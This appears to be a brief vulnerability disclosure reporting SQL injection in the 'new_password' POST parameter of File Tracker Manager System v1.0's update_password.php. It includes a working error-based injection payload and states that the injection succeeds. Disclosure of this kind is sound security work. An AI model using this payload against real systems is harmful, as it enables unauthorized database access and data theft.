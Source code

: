 # File Tracker Manager System v1.0 has SQL injection

BUG_Author:GZR1

Website source code address: https://www.sourcecodester.com/php/11510/file-tracker-manager.html

Vulnerability File: /file_manager/register/update_password.php

POST parameter 'new_password' exists SQL injection vulnerability

Payload: new_password=1' and (select 2 from(select count(*),concat(0x712627287273,(select (elt(3=3,1))),0x616263,floor(rand(0)*2))x from information_schema.plugins group by x)x)-- x

Error-based sql injection is successful, proving that there is a sql injection vulnerability

![image](https://github.com/GZRsecurity/cve/blob/main/sql.png)
